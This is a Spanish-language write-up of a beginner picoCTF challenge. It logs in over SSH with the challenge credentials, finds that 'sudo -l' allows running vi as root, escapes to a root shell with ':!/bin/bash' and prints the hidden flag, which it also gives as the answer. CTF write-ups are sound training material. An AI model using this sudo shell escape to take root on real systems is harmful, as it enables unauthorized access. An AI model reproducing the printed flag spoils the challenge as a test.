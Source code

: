 #Software #Hacking #Principiante
# Definición
Can you read files in the root file?
The system admin has provisioned an account for you on the main server:`ssh -p 56768 picoplayer@saturn.picoctf.net`Password: `NBD+zO8s4y`Can you login and read the root file?
# Hints
What permissions do you have?
# Solución
Primero nos conectamos al servidor usando [[SSH]].

```bash
AsumomezaC-picoctf@webshell:~$ ssh -p 56768 picoplayer@saturn.picoctf.net
The authenticity of host '[saturn.picoctf.net]:56768 ([13.59.203.175]:56768)' can't be established.
ED25519 key fingerprint is SHA256:HKm/Bw1C+mhj23vO8tXULrgLFYvzP6gQH2IwgUiQTok.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:7: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[saturn.picoctf.net]:56768' (ED25519) to the list of known hosts.
picoplayer@saturn.picoctf.net's password: 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 6.5.0-1023-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.
```

Después vemos que archivos y carpetas tenemos disponibles en el servidor usando [[ls]].

```bash
picoplayer@challenge:~$ ls -l
total 0
```

Vemos que aparentemente no hay nada por lo que buscamos archivos ocultos ([[ls#b) Mostrar archivos ocultos (`-a`)]]).

```bash
picoplayer@challenge:~$ ls -la
total 12
drwxr-xr-x 1 picoplayer picoplayer   20 Feb 22 23:31 .
drwxr-xr-x 1 root       root         24 Aug  4  2023 ..
-rw-r--r-- 1 picoplayer picoplayer  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 picoplayer picoplayer 3771 Feb 25  2020 .bashrc
drwx------ 2 picoplayer picoplayer   34 Feb 22 23:31 .cache
-rw-r--r-- 1 picoplayer picoplayer  807 Feb 25  2020 .profile
```

Ahí notamos que tenemos una carpeta llamada root. Esto será importante más adelante.

Por lo que continuamos viendo que permisos tenemos (seguimos la [[#Hints]]). Utilizamos el comando [[sudo#4. Uso de `sudo -l` en un servidor SSH]].

```bash
picoplayer@challenge:/$ sudo -l
[sudo] password for picoplayer: 
Matching Defaults entries for picoplayer on challenge:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoplayer may run the following commands on challenge:
    (ALL) /usr/bin/vi
```

Observamos que podemos utilizar el editor [[vi#8. Uso de `sudo vi test` en un servidor]], que nos será muy útil para entrar a la root.

```
picoplayer@challenge:/$ sudo vi test

+

:!/bin/bash
```

Ahora ya nos encontramos en la raíz. Por lo que decidimos checar que contiene.
```bash
root@challenge:/# ls -la
total 12
drwxr-xr-x   1 root   root       68 Feb 22 23:39 .
drwxr-xr-x   1 root   root       68 Feb 22 23:39 ..
-rwxr-xr-x   1 root   root        0 Feb 22 23:29 .dockerenv
-rw-------   1 root   root    12288 Feb 22 23:39 .test.swp
lrwxrwxrwx   1 root   root        7 Mar  8  2023 bin -> usr/bin
drwxr-xr-x   2 root   root        6 Apr 15  2020 boot
d---------   1 root   root       27 Aug  4  2023 challenge
drwxr-xr-x   5 root   root      340 Feb 22 23:29 dev
drwxr-xr-x   1 root   root       66 Feb 22 23:29 etc
drwxr-xr-x   1 root   root       24 Aug  4  2023 home
lrwxrwxrwx   1 root   root        7 Mar  8  2023 lib -> usr/lib
lrwxrwxrwx   1 root   root        9 Mar  8  2023 lib32 -> usr/lib32
lrwxrwxrwx   1 root   root        9 Mar  8  2023 lib64 -> usr/lib64
lrwxrwxrwx   1 root   root       10 Mar  8  2023 libx32 -> usr/libx32
drwxr-xr-x   2 root   root        6 Mar  8  2023 media
drwxr-xr-x   2 root   root        6 Mar  8  2023 mnt
drwxr-xr-x   2 root   root        6 Mar  8  2023 opt
dr-xr-xr-x 248 nobody nogroup     0 Feb 22 23:29 proc
drwx------   1 root   root       23 Aug  4  2023 root
drwxr-xr-x   1 root   root       66 Feb 22 23:37 run
lrwxrwxrwx   1 root   root        8 Mar  8  2023 sbin -> usr/sbin
drwxr-xr-x   2 root   root        6 Mar  8  2023 srv
dr-xr-xr-x  13 nobody nogroup     0 Feb 22 23:29 sys
drwxrwxrwt   1 root   root        6 Aug  4  2023 tmp
drwxr-xr-x   1 root   root       18 Mar  8  2023 usr
drwxr-xr-x   1 root   root       17 Mar  8  2023 var
```

Reafirmamos que el contenido no ha cambiado (pero ahora accedemos como raíz), por lo que accedemos a la raíz.

```bash
root@challenge:/# cd /root/
```

Ahora observamos los nuevos archivos que tenemos.

```bash
root@challenge:~# ls -la
total 12
drwx------ 1 root root   23 Aug  4  2023 .
drwxr-xr-x 1 root root   68 Feb 22 23:39 ..
-rw-r--r-- 1 root root 3106 Dec  5  2019 .bashrc
-rw-r--r-- 1 root root   35 Aug  4  2023 .flag.txt
-rw-r--r-- 1 root root  161 Dec  5  2019 .profile
```

Finalmente abrimos la flag con [[CAT]].
```bash
root@challenge:~# cat .flag.txt
picoCTF{uS1ng_v1m_3dit0r_1cee9dcb}
```
## Respuesta
picoCTF{uS1ng_v1m_3dit0r_1cee9dcb}